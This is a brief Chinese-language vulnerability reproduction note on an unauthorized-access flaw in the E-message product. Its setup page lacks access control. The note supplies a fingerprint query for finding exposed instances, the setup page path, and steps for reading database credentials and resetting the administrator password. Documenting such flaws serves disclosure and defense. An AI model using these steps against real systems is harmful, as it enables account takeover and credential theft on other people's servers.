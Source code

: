 # E-message 越权访问漏洞

## 漏洞描述

E-message 存在越权访问漏洞，由于配置页面没有做权限设定，导致攻击者可以访问并重置账号密码等操作

## 漏洞影响

```
E-message
```

## 网络测绘

```
title="emessage 设置: 数据库设置 - 标准连接"
```

## 漏洞复现

访问安装页面

```plain
http://xxx.xxx.xxx.xxx/setup/setup-datasource-standard.jsp
```

![](images/202202101934751.png)



可以获取账号密码信息，一路点击右下角的继续将会跳转修改管理员账号密码页面，修改后登录即可获取后台权限



![](images/202202101934975.png)